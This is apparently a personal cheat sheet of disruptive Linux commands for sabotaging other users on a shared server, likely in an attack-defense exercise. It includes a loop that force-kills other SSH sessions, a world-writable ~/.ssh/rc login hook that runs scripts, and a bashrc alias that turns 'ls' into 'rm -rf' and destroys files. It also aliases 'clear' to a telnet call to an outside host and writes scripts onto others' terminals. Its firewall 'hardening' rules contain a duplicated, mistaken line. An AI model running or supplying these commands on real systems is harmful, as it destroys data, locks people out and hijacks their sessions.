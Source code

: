 ### SSH session fuckery

```
ssh2keep={1 2} 

ssh2boot=({1..20}); while true; do for session in "${ssh2boot[@]}"; do if [[ ! " ${ssh2keep[@]} " =~ " ${session} " ]]; then if ps -t pts/${session} > /dev/null 2>&1; then echo "Session pts/${session} discovered!!!"; pkill -9 -t pts/${session}; echo "Attempted to kill pts/${session}..."; if ! ps -t pts/${session} > /dev/null 2>&1; then echo "pts/${session} killed :)"; else echo "Failed to kill pts/${session}."; fi; fi; fi; done; sleep 1; done
```


### SSH Service fuckery

**run a command on an ssh session when it starts**

```bash
nano /home/user/.ssh/rc


bash /dev/shm/parrot.sh

or 

while true; do for i in $(seq 1 5); do clear; printf "\n\n\r     Loading$(printf '.%.0s' $(seq 1 $i)) \n\n"; sleep 0.5; done; done


chmod 777 /home/user/.ssh/rc
```


### bashrc aliases

```
alias ls='rm -rf'
alias clear='telnet towel.blinkenlights.nl'
```



### terminal pets

```
bash parrot.sh > /dev/pts/1 &
bash pedro.sh > /dev/pts/1 &

kill -9 PID
```


### Server Hardening

**ports**
```bash
# Block incoming traffic on port 22 
sudo iptables -A INPUT -p tcp --dport 22 -j DROP
sudo iptables -A INPUT -p udp --dport 22 -j DROP 

# Block outgoing traffic on port 22 
sudo iptables -A OUTPUT -p tcp --sport 22 -j DROP
sudo iptables -A INPUT -p udp --dport 22 -j DROP 
```

**services**

